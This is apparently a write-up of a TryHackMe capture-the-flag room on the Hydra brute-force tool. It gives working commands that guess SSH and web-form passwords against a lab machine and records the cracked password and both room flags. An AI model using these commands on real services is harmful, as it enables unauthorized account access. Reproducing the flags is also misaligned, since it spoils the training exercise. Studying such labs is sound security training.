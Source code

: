 # Hydra

### Task 1: Hydra Introduction

#### What is Hydra?

Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: https://en.kali.tools/?p=220

This shows the importance of using a strong password, if your password is common, doesn't contain special characters and/or is not above 8 characters, its going to be prone to being guessed. 100 million password lists exist containing common passwords, so when an out-of-the-box application uses an easy password to login, make sure to change it from the default! Often CCTV camera's and web frameworks use admin:password as the default password, which is obviously not strong enough.

#### Installing Hydra

If you're using Kali Linux, hydra is pre-installed. Otherwise you can download it here: https://github.com/vanhauser-thc/thc-hydra

If you don't have Linux or the right desktop environment, you can deploy your own Kali Linux machine with all the needed security tools. You can even control the machine in your browser! Do this with our Kali room - https://tryhackme.com/room/kali

1. Read the above and have Hydra at the ready.

   > No answer needed

### Task 2: Using Hydra

Deploy the machine attached to this task, then navigate to http://MACHINE_IP *(this machine can take up to 3 minutes to boot)*

MACHINE_IP: 10.10.139.250

#### Hydra Commands

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

`hydra -l user -P passlist ftp://10.10.139.250`

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

#### SSH

`hydra -l <usernam> -P <full path to pass> 10.10.139.250 -t 4 ssh

- -l: username
- -P: list of password
- -t: number of threads

#### Post Web Form

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> 10.10.139.250 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

- -l => username
- -P => password list
- http-post-form => type of form (post)
- /login url => login page URL
- :username => form field where the username is entered
- ^USER^ => tells Hydra to use the username
- password => form field where the password is entered
- ^PASS^ => tells Hydra to use the password list supplied earlier
- Login => indicated to Hydra the Login failed message
- Login failed => login failure message that the form returns
- F=incorrect => if this word appears on the page, it's incorrect
- -V => verbose output

You should now have enough information to put this to practise and brute-force yourself credentials to the deployed machine!

1. Use Hydra to bruteforce molly's web password. What is flag 1?

   Command used: `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.139.250 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

   It doesn't take Hydra more than 46 attempts to find molly's password. I then logged into the machine's login page using molly as username and the obtained password. After logging in, I get the flag.

   > THM{2673a7dd116de68e85c48ec0b1f2612e}

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

   Command used: `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.139.250 -t 4 ssh` (Since we're trying to get molly's SSH password).

   Once Hydra finds molly's SSH password (*butterfly*), I logged into the machine as molly using ssh (`ssh molly@10.10.139.250`). I check what's in the current folder (a flag2.txt file) and use the `cat flag2.txt` command to see what's in the file.


   > THM{c8eeb0468febbadea859baeb33b2541b}
